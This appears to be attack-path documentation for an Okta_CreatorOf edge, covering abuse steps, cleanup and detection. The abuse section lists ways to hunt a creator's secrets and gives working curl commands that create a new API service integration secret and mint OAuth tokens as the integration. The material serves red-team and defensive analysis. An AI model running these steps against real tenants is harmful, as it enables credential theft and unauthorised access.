

## General Information

The non-traversable Okta_CreatorOf edges represent the creator relationships between API Service Integration instances and users in Okta:



## Abuse Info

`Okta_CreatorOf` is creator metadata for an API service integration. It does not mean the source user can automatically authenticate as the destination integration. It is useful because the creator is often the person who configured the integration, stored its client secret, placed the client ID in deployment code, or retained admin access to rotate the integration secret.

An attacker who controls the source user can use this relationship to hunt for the destination integration's credential material and operational footprint:

1. Compromise the source user's Okta account, workstation, password manager, source repositories, CI/CD system, cloud secret manager, and deployment tooling.
2. Search for the destination API service integration ID, client ID, integration name, `configGuideUrl`, secret hash, tenant URL, or deployment variables.
3. If a raw client secret is recovered from the creator's systems, authenticate as the destination integration with the OAuth 2.0 client credentials flow.
4. If the source user still has authority to manage the destination integration, create a new API service integration secret. Okta displays the new raw secret once at creation time; existing API service integration secrets are listed as masked values.
5. Request a token from the org authorization server using the recovered or newly created secret and the destination integration's granted scopes.
6. Use the token against Okta Management APIs allowed by those scopes, then follow adjacent credential and role edges such as `Okta_SecretOf`, `Okta_ApiTokenFor`, `Okta_SuperAdmin`, `Okta_OrgAdmin`, or scoped API permissions.

Using the Admin Console:

1. Sign in as the source user or as an administrator who can manage API service integrations.
2. Open **Applications** > **API Service Integrations** and select the destination integration.
3. Record the integration ID, client ID, granted scopes, creator, and client secret hashes.
4. Generate a new client secret if you have authority to rotate the integration secret.
5. Copy the new secret from the one-time display and use it immediately to request an access token.
6. Use the token only for the scoped Okta Management API calls needed for the path.
7. If no new secret can be created, search the source user's repositories, deployment variables, CI/CD secret stores, and password vaults for the existing secret.

Using the Okta API:

1. Set variables for the destination API service integration and requested Okta scope.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export API_SERVICE_ID="0oa..."
    export TOKEN_SCOPE="okta.users.read"
    ```

2. Retrieve the destination integration and confirm creator, client link, and granted scopes.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/integrations/api/v1/api-services/$API_SERVICE_ID" \
      | tee /tmp/okta-creatorof-api-service.json

    jq '{id, name, type, createdAt, createdBy, grantedScopes, clientHref: ._links.client.href}' \
      /tmp/okta-creatorof-api-service.json
    ```

3. List existing integration secrets and note secret IDs, status, and hashes.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/integrations/api/v1/api-services/$API_SERVICE_ID/credentials/secrets" \
      | jq -r '.[] | [.id, .status, .secret_hash, .created, .lastUpdated] | @tsv'
    ```

4. Create a new API service integration secret if the source access can manage the destination integration. Save the raw secret immediately; Okta returns it only at creation time.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/integrations/api/v1/api-services/$API_SERVICE_ID/credentials/secrets" \
      | tee /tmp/okta-creatorof-new-secret.json

    export TEMP_SECRET_ID="$(jq -r '.id' /tmp/okta-creatorof-new-secret.json)"
    export API_SERVICE_CLIENT_SECRET="$(jq -r '.client_secret' /tmp/okta-creatorof-new-secret.json)"
    jq '{id, status, secret_hash, created}' /tmp/okta-creatorof-new-secret.json
    ```

    A successful request returns `201 Created` and includes `client_secret`.

5. Mint an OAuth access token as the destination integration.

    ```bash
    curl -sS -X POST \
      -u "$API_SERVICE_ID:$API_SERVICE_CLIENT_SECRET" \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "grant_type=client_credentials" \
      --data-urlencode "scope=$TOKEN_SCOPE" \
      "$OKTA_ORG/oauth2/v1/token" \
      | tee /tmp/okta-creatorof-token.json

    export OKTA_ACCESS_TOKEN="$(jq -r '.access_token' /tmp/okta-creatorof-token.json)"
    jq '{token_type, expires_in, scope}' /tmp/okta-creatorof-token.json
    ```

6. Verify the token against an endpoint allowed by the integration's granted scopes.

    ```bash
    curl -sS \
      -H "Authorization: Bearer $OKTA_ACCESS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users?limit=1" \
      | jq -r '.[] | [.id, .profile.login, .status] | @tsv'
    ```

## Cleanup after Abuse

Cleanup for `Okta_CreatorOf` removes any temporary API service integration secret created through the creator relationship, rotates secrets found in the creator's systems, revokes tokens minted as the destination integration where possible, and removes downstream changes made with those tokens.

Cleanup using Admin Console:

1. Open **Applications** > **API Service Integrations** and select the destination integration.
2. In **Client Secrets**, deactivate the temporary or exposed secret.
3. Delete the inactive secret if it is no longer needed.
4. Rotate any recovered client secrets stored in the creator's password manager, repositories, CI/CD variables, Terraform state, or cloud secret manager.
5. Remove downstream changes made with tokens minted as the integration.
6. Revoke or expire tokens in downstream services where supported and verify the old secret can no longer mint Okta tokens.

Cleanup using API:

1. Deactivate the temporary or exposed API service integration secret.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/integrations/api/v1/api-services/$API_SERVICE_ID/credentials/secrets/$TEMP_SECRET_ID/lifecycle/deactivate"
    ```

    A successful request returns `200 OK` with the secret status set to `INACTIVE`.

2. Delete the inactive secret.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/integrations/api/v1/api-services/$API_SERVICE_ID/credentials/secrets/$TEMP_SECRET_ID"
    ```

    A successful deletion returns `204 No Content`.

3. Revoke a known token minted with the temporary secret. Token revocation returns `200 OK` even if the token is already invalid.

    ```bash
    export MINTED_ACCESS_TOKEN="$(jq -r '.access_token' /tmp/okta-creatorof-token.json)"

    curl -i -sS -X POST \
      -u "$API_SERVICE_ID:$API_SERVICE_CLIENT_SECRET" \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "token=$MINTED_ACCESS_TOKEN" \
      --data-urlencode "token_type_hint=access_token" \
      "$OKTA_ORG/oauth2/v1/revoke"
    ```

4. Verify the temporary secret is gone and cannot mint a token.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/integrations/api/v1/api-services/$API_SERVICE_ID/credentials/secrets" \
      | jq -r '.[] | select(.id == env.TEMP_SECRET_ID)'

    curl -i -sS -X POST \
      -u "$API_SERVICE_ID:$API_SERVICE_CLIENT_SECRET" \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "grant_type=client_credentials" \
      --data-urlencode "scope=$TOKEN_SCOPE" \
      "$OKTA_ORG/oauth2/v1/token"
    ```

    The token request should fail with an OAuth error such as `invalid_client`.

5. If a temporary client role assignment was created for the integration, remove it.

    ```bash
    export ROLE_ASSIGNMENT_ID="JBC..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$API_SERVICE_ID/roles/$ROLE_ASSIGNMENT_ID"
    ```

## Opsec Considerations

Creator metadata points defenders toward the human and systems likely to hold integration credentials. Abuse may create Okta events for API service integration secret creation, activation, deactivation, deletion, OAuth token grants, client role assignment changes, and Okta Management API calls under the destination integration. Endpoint, EDR, DLP, source-control, CI/CD, and secret-scanning logs may show credential hunting against the creator's systems before Okta token use begins.

New API service integration token use from a network, user agent, or schedule that differs from the integration's normal automation is a strong signal, especially when it follows a newly created secret.

## References

- [Okta API Service Integrations API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApiServiceIntegrations/)
- [Okta API service integration secret rotation](https://help.okta.com/oie/en-us/content/topics/apiservice/api-service-integration-rotate-client-secret.htm)
- [Okta API service integrations in the OIN](https://developer.okta.com/docs/guides/oin-api-service-overview/)
- [Okta client credentials flow for API service integrations](https://developer.okta.com/docs/guides/build-api-integration/main/)
- [Okta Client Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentClient/)
- [Okta revoke tokens](https://developer.okta.com/docs/guides/revoke-tokens/main/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Adam Chester: Okta for Red Teamers](https://blog.xpnsec.com/okta-for-redteamers/)
- [Okta Post-Exploitation Toolkit](https://github.com/xpn/OktaPostExToolkit)
